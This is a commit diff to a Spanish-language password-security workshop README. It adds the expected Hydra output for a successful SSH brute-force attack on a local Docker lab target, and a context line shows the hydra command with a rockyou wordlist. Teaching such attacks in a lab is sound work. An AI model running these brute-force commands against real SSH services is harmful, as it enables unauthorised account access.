

Before and after one commit to edelahozuah/intro-to-password-workshop, a Markdown page: exercises/module5/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Add expected output examples for successful attacks in M5

````diff
--- a/exercises/module5/README.md
+++ b/exercises/module5/README.md
@@ -122,6 +122,28 @@ hydra -l testuser -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222 -t 1 -v
 > **¿Errores de conexión?** El servidor SSH de Docker limita conexiones concurrentes.
 > - Usa `-t 1` (un solo thread) en lugar de `-t 4`
 > - Si persisten errores, añade `-W 1` para esperar 1 segundo entre intentos
+
+#### ✅ Resultado Esperado (Ataque Exitoso)
+
+Cuando Hydra encuentra la contraseña, verás una salida similar a:
+
+```
+Hydra v9.6 (c) 2023 by van Hauser/THC...
+[DATA] attacking ssh://ssh-target:2222/
+[2222][ssh] host: ssh-target   login: testuser   password: password123
+1 of 1 target successfully completed, 1 valid password found
+```
+
+La línea clave es:
+```
+[2222][ssh] host: ssh-target   login: testuser   password: password123
+```
+
+Esto indica:
+- **Puerto**: 2222
+- **Servicio**: ssh
+- **Usuario**: testuser
+- **Contraseña encontrada**: password123
 
 **Pregunta**: ¿Cuánto tardó en encontrar la contraseña?
 
````
